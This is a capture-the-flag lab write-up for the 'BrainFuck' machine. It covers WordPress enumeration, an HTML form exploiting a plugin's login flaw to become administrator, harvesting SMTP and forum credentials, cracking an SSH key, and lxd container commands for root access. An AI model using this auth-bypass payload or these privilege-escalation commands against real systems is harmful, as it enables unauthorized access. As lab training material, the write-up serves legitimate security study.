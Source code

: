 # BrainFuck

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (38) (5).png" alt=""><figcaption></figcaption></figure>

We can add `brainfuck.htb` to our `/etc/hosts` file and visit the HTTP wesbites.

### Wordpress Ticket System

Website revealed a Wordpress site:

<figure><img src="../../../.gitbook/assets/image (40) (5).png" alt=""><figcaption></figcaption></figure>

Because this was a HTTPS website, we can take a look at the certificate first to find an email address.

<figure><img src="../../../.gitbook/assets/image (8) (3) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the alternate DNS names, we can find another hidden subdomain, which we'll visit later.

<figure><img src="../../../.gitbook/assets/image (3) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan --enumerate p,t,u` on this website. This returns a plugin that is outdated and exploitable.

<figure><img src="../../../.gitbook/assets/image (10) (3) (1).png" alt=""><figcaption></figcaption></figure>

For this version, there are SQL Injection and Privilege Escalation exploits available.

<figure><img src="../../../.gitbook/assets/image (13) (2) (4) (1).png" alt=""><figcaption></figcaption></figure>

Based on the PoC for the Privilege Escalation one, we have to create some HTML code that would allow us to login as the administrator. Earlier, we found an email address for the user `orestis`. We can use that for our exploit.

Here's the HTML frames we need:

```markup
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Afterwards, we just need to set this up on a Python server and visit the site. The username is based on the username of the first post we saw.&#x20;

<figure><img src="../../../.gitbook/assets/image (27) (4).png" alt=""><figcaption></figcaption></figure>

Initially, nothing happens when we click the login button, however after refreshing the page, we are notified that we have logged in as the administrator.

<figure><img src="../../../.gitbook/assets/image (17) (7) (1).png" alt=""><figcaption></figcaption></figure>

### SMTP Creds

When viewing the plugins, we can find another plugin that enables SMTP on the Wordpress site.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

When viewing the SMTP configuration settings, we can find the username and password for port 110.

<figure><img src="../../../.gitbook/assets/image (12) (3) (1).png" alt=""><figcaption></figcaption></figure>

The password can be taken by viewing the page source to reveal the hidden value.

<figure><img src="../../../.gitbook/assets/image (39) (6).png" alt=""><figcaption></figcaption></figure>

We can then proceed to enumerate the SMTP instance.

### Reading Emails

We can sign in to the service on port 110.

<figure><img src="../../../.gitbook/assets/image (5) (4) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can view the messages sent using `list`.

<figure><img src="../../../.gitbook/assets/image (37) (5).png" alt=""><figcaption></figcaption></figure>

We can read both the emails, and one of them has credentials for a forum page.

<figure><img src="../../../.gitbook/assets/image (33) (5).png" alt=""><figcaption></figcaption></figure>

These are probably credentials for the secret subdomain we found earlier.&#x20;

### Forum Page&#x20;

We can login to the forum page here using the credentials we found earlier. Then, we can view the pages that are present.

<figure><img src="../../../.gitbook/assets/image (22) (7).png" alt=""><figcaption></figcaption></figure>

Some of the forum pages mention sending SSH keys somehow.

<figure><img src="../../../.gitbook/assets/image (1) (1) (9).png" alt=""><figcaption></figcaption></figure>

There was also an encrypted few posts.

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

There was clearly a URL within that, and it seems that numbers **are not being scrambled**. This means this is a letter-only cipher. After a bit of research and testing on CyberChef, Vignere cipher is the one used here.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can head to that website to find the `id_rsa` file for `orestis`.

<figure><img src="../../../.gitbook/assets/image (30) (5) (1).png" alt=""><figcaption></figcaption></figure>

The file is password encrypted, so we have to use `ssh2john.py` to convert this to a hash for `john` to crack.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Then we can use `openssl rsa` to write the key out.

<figure><img src="../../../.gitbook/assets/image (7) (4) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply SSH in using this key.

<figure><img src="../../../.gitbook/assets/image (32) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### lxd

When enumerating using LinPEAS, we can see that the user is part of the `lxd` group.

<figure><img src="../../../.gitbook/assets/image (41) (4).png" alt=""><figcaption></figcaption></figure>

Being part of this group means that we can create and manage extra containers for this machine. The exploit path is to create a container where we have root privileges and it is mounted onto the main disk.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}

I downloaded an alpine distro to the machine. Then, we can execute the commands from HackTricks:

```bash
# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

The last command would drop us into a root shell, where the `/root` directory has been mounted and we can grab the root flag.

<figure><img src="../../../.gitbook/assets/image (6) (7).png" alt=""><figcaption></figcaption></figure>
